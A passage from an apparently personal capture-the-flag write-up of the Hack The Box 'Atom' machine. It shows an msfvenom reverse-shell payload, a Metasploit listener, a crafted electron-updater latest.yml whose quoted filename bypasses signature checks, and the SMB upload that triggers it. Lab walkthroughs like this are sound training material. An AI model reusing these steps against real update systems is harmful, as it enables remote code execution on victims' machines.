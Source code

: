 ```bash
lport => 9001
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp 
payload => windows/shell_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.39:9001 
```

I fixed a couple of issues with my filepaths, then tried replicating my friend's commands exactly. The only differences between mine and his were his use of port 443 (a mistake on my part, as Windows often only trusts well-known ports for reverse shells) and the filename. After changing my port and still not getting a shell, I changed my filename to `h'eed`:

![](/assets/images/blogs/Pasted image 20210625215523.png)

And got a shell!

![](/assets/images/blogs/Pasted image 20210625215555.png)

### Final YAML

This was the final YAML I used:

```yaml
version: 2.1.9
path: http://10.10.14.39/h'eed.exe
sha512: yZCEOg74ydXD0uguleSFIfA0OwPL3dh2Q5qM/m/DU5KN8/a0nr1CfMU2S+sIL/6Q/JsUtsJCOF3C3mUYk6X1Fg==
```

Which was represented in my Python script as:

```python
yml_string = ("version: 2.1.9\n"
	"path: http://{ip}/{payload}\n"
	"sha512: {sha}"
	).format(ip=ip, payload=payload, sha=sum)
```

The equivalent bash commands are:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=443 -f exe -o "h'eed.exe"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: h'eed.exe
┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ shasum -a 512 "h'eed.exe" | cut -d " " -f1 | xxd -r -p | base64
8XliFRF177w/k3OL25064XatMPUicDT+DVuiKZYQJtYeGKqOKLDGrFyu90N+xfCm69y9bCPdulsj
xR/+7HjzbA==
┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ nano latest.yml 

...[input the yaml here]...

┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ smbclient //10.10.10.237/Software_Updates
Enter WORKGROUP\mac's password: 
Try "help" to get a list of possible commands.
smb: \> cd client1
smb: \client1\> put latest.yml 
putting file latest.yml as \client1\latest.yml (2.4 kb/s) (average 2.4 kb/s)

...[python server]...
```